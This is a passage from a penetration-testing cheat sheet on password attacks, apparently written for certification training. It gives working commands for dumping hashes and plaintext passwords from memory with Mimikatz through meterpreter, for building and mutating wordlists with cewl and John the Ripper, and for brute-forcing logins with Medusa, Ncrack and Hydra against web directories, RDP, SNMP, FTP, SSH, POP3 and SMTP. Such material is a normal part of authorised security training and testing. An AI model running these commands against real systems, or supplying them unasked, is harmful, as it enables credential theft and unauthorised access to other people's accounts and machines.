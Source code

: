         -   wce -w

    -   Mimikatz

        -   extract plaintexts passwords, hash, PIN code and kerberos
            tickets from memory. mimikatz can also perform
            pass-the-hash, pass-the-ticket or build Golden tickets
            [*https://github.com/gentilkiwi/mimikatz*](https://github.com/gentilkiwi/mimikatz)
            From metasploit meterpreter (must have System level access):
            `meterpreter> load mimikatz
            meterpreter> help mimikatz
            meterpreter> msv
            meterpreter> kerberos
            meterpreter> mimikatz_command -f samdump::hashes
            meterpreter> mimikatz_command -f sekurlsa::searchPasswords`

    -   Password Profiling

        -   cewl can generate a password list from a web page
            `cewl www.megacorpone.com -m 6 -w megacorp-cewl.txt`

    -   Password Mutating

        -   John the ripper can mutate password lists
            nano /etc/john/john.conf
            `john --wordlist=megacorp-cewl.txt --rules --stdout > mutated.txt`

    -   Medusa

        -   Medusa, initiated against an htaccess protected web
            directory
            `medusa -h $ip -u admin -P password-file.txt -M http -m DIR:/admin -T 10`

    -   Ncrack

        -   ncrack (from the makers of nmap) can brute force RDP
            `ncrack -vv --user offsec -P password-file.txt rdp://$ip`

    -   Hydra

        -   Hydra brute force against SNMP
            `hydra -P password-file.txt -v $ip snmp`

        -   Hydra FTP known user and password list
            `hydra -t 1 -l admin -P /root/Desktop/password.lst -vV $ip ftp`

        -   Hydra SSH using list of users and passwords
            `hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh`

        -   Hydra SSH using a known password and a username list
            `hydra -v -V -u -L users.txt -p "<known password>" -t 1 -u $ip ssh`

        -   Hydra SSH Against Known username on port 22
            `hydra $ip -s 22 ssh -l <user> -P big\_wordlist.txt`

        -   Hydra POP3 Brute Force
            `hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V`

        -   Hydra SMTP Brute Force
            `hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V`
